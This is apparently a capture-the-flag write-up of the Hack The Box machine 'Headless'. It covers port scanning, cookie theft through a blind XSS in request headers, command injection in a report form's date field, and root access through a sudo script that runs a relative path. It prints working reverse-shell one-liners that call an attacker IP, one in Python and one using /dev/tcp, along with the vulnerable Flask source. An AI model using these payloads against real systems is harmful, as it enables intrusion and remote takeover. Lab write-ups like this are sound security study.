

# Headless

<figure><figcaption></figcaption></figure>

## Enumeration

```
nmap -v -A -p- -Pn -sV -sC headless.htb -oN nmap
```

```bash
Nmap scan report for headless.htb (10.10.11.8)
Host is up (0.046s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Fri, 05 Apr 2024 14:54:48 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=4/5%Time=661010B8%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\x
SF:20Python/3\.11\.2\r\nDate:\x20Fri,\x2005\x20Apr\x202024\x2014:54:48\x20
SF:GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\
SF:x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Zf
SF:s;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x
SF:20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\x
SF:20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-widt
SF:h,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Constructi
SF:on</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20bo
SF:dy\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\x
SF:20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20dis
SF:play:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justify
SF:-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20a
SF:lign-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\x
SF:20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x200
SF:,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYPE
SF:\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x2
SF:0\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x2
SF:0\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20respo
SF:nse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>\
SF:n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20versi
SF:on\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x
SF:20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x2
SF:0unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=4/5%OT=22%CT=1%CU=38696%PV=Y%DS=2%DC=T%G=Y%TM=66101
OS:11E%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)O
OS:PS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CS
OS:T11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)E
OS:CN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=
OS:N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%
OS:CD=S)

Uptime guess: 29.193 days (since Thu Mar  7 05:18:09 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   46.09 ms 10.10.14.1
2   46.25 ms headless.htb (10.10.11.8)

NSE: Script Post-scanning.
Initiating NSE at 10:56
Completed NSE at 10:56, 0.00s elapsed
Initiating NSE at 10:56
Completed NSE at 10:56, 0.00s elapsed
Initiating NSE at 10:56
Completed NSE at 10:56, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 132.16 seconds
           Raw packets sent: 65933 (2.905MB) | Rcvd: 65676 (2.631MB)

```

### SSH 22

### HTTP 5000


#### /

We see that backend set a cookie `is_admin`:

<figure><figcaption></figcaption></figure>

```
Server:	Werkzeug/2.2.2 Python/3.11.2
```

```
Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
```

#### /support

<figure><figcaption></figcaption></figure>

#### /dashboard

<figure><figcaption></figcaption></figure>

In this case we obtain a 500 HTTP Status Code and cookie is not set as we can verify also using BurpSuite:

<figure><figcaption></figcaption></figure>

Instead if we modify the request to `/dashboard` using BurpSuite Pro and we set the value `InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs`  as Cookie Header we obtain a different result (401 Unauthorized):

<figure><figcaption></figcaption></figure>

Using `Decoder` function we can see that the first part of Cookie value is "user":

<figure><figcaption></figcaption></figure>

Analyzing the website and in particular the form at /support using Wapiti we see in the report that there is no CSP configuration (probably the form is vulnerable to XSS).

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Exploitation (user)

Testing for an XSS using BurpSuite on different fields of form result in a strange response HTML for the field `message`:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Rendering the strange response in a browser we obtain this one below:

<figure><figcaption></figcaption></figure>

The text of Hacking Attempt page says:

_Your IP addrees has been flagged, a report with your browser information has been sent to the administrators for investigation._


This is an interesting clue, as it means that some of the malicious code we send is rendered in the administrator's browser, and if it is not properly encoded and interpreted as plain text but as HTML code, it is XSS passable and therefore we could try and steal the administrative cookie.


To obtain the administrator's cookie, we run a simple web server with Python:

```bash
python3 -m http.server 8000
```

that remains listening for any requests made via JavaScript injected into the administrator's browser by exploiting the XSS on the report form.

XSS on message field is not working as expected:

<figure><figcaption></figcaption></figure>

Since the form fields do not appear to be vulnerable to XSS, we need to try working on the HTTP request headers, which are then likely reported to the administrator for a thorough analysis of the "hacking attempt."

<figure><figcaption></figcaption></figure>

The XSS in the field #1 is that will trigger the theft of the administrative cookie.

The XSS in the field #2 instead, is the one to trigger the hacking attempt report and notify the administrator.


```
10.10.11.8 - - [09/Apr/2024 06:38:47] "GET /?cookie=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
```


Now setting the cookie in the browser, we can finally access dashboard page:

<figure><figcaption></figcaption></figure>

Fuzzing for other hidden directories using administrative cookie is a fail:

<figure><figcaption></figcaption></figure>

Trying to intercept the "Generate Report" request and modify the POST parameter date by injecting some OS commands (Linux) return a beatiful result:

<figure><figcaption></figcaption></figure>

We need to obtain a reverse shell, so explore the binaries installed on victim machine that we can use:

<figure><figcaption></figcaption></figure>

Using python3 we will obtain a reverse shell.

On attacker machine:

```bash
rlwrap nc -lvnp 6060
```

On BurpSuite Repeater:


```
date=01-01-01;/usr/bin/python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.15.101",6060));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```


<figure><figcaption></figcaption></figure>

And the user flag:

<figure><figcaption></figcaption></figure>

## Privilege Escalation

Under `/app`directory we can see some interesting files:

<figure><figcaption></figcaption></figure>


```python
from flask import Flask, render_template, request, make_response, abort, send_file
from itsdangerous import URLSafeSerializer
import os
import random

app = Flask(__name__, template_folder=".")


app.secret_key = b'PcBE2u6tBomJmDMwUbRzO18I07A'
serializer = URLSafeSerializer(app.secret_key)

hacking_reports_dir = '/home/dvir/app/hacking_reports'
os.makedirs(hacking_reports_dir, exist_ok=True)

@app.route('/')
def index():
    client_ip = request.remote_addr
    is_admin = True if client_ip in ['127.0.0.1', '::1'] else False
    token = "admin" if is_admin else "user"
    serialized_value = serializer.dumps(token)

    response = make_response(render_template('index.html', is_admin=token))
    response.set_cookie('is_admin', serialized_value, httponly=False)

    return response

@app.route('/dashboard', methods=['GET', 'POST'])
def admin():
    if serializer.loads(request.cookies.get('is_admin')) == "user":
        return abort(401)

    script_output = ""

    if request.method == 'POST':
        date = request.form.get('date')
        if date:
            script_output = os.popen(f'bash report.sh {date}').read()

    return render_template('dashboard.html', script_output=script_output)

@app.route('/support', methods=['GET', 'POST'])
def support():
    if request.method == 'POST':
        message = request.form.get('message')
        if ("<" in message and ">" in message) or ("{{" in message and "}}" in message):
            request_info = {
                "Method": request.method,
                "URL": request.url,
                "Headers": format_request_info(dict(request.headers)),
            }

            formatted_request_info = format_request_info(request_info)
            html = render_template('hackattempt.html', request_info=formatted_request_info)

            filename = f'{random.randint(1, 99999999999999999999999)}.html'
            with open(os.path.join(hacking_reports_dir, filename), 'w', encoding='utf-8') as html_file:
                html_file.write(html)

            return html

    return render_template('support.html')

@app.route('/hacking_reports/<int:report_number>')
def hacking_reports(report_number):
    report_file = os.path.join(hacking_reports_dir, f'{report_number}.html')

    if os.path.exists(report_file):
        return send_file(report_file)
    else:
        return "Report not found", 404

def format_request_info(info):
    formatted_info = ''
    for key, value in info.items():
        formatted_info += f"<strong>{key}:</strong> {value}<br>"
    return formatted_info

def format_form_data(form_data):
    formatted_data = {}
    for key, value in form_data.items():
        formatted_data[key] = value
    return formatted_data

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000)
```



Do some enumeration with LinPeas:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Very good! We can run /usr/bin/syscheck as root thanks to sudoers permissions.

### Exploitation (root)

Investigating the script further, we note that it is a BASH script, on which we have no editing permissions:

<figure><figcaption></figcaption></figure>


```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0

```


The vulnerability of this script lies in the execution of an initdb.sh script present in the same directory from which syscheck is invoked. Therefore, we simply place ourselves in a directory in which we have write permissions (/tmp will do just fine) and create a script with the same name but with a reverse shell to our attacking machine:

```bash
echo '#!/bin/bash' > initdb.sh
echo "/bin/bash -i >& /dev/tcp/10.10.15.101/7070 0>&1" >> initdb.sh
```

<figure><figcaption></figcaption></figure>

Add the permission of execution to the script (too much permissions in this case is not bad :joy: ):

```bash
chmod 777 initdb.sh
```

Now start a listener on our attacking machine and run with SUDO the `/usr/bin/syscheck` script:

<figure><figcaption></figcaption></figure>

On our machine we obtain the reverse shell as root:

<figure><figcaption></figcaption></figure>
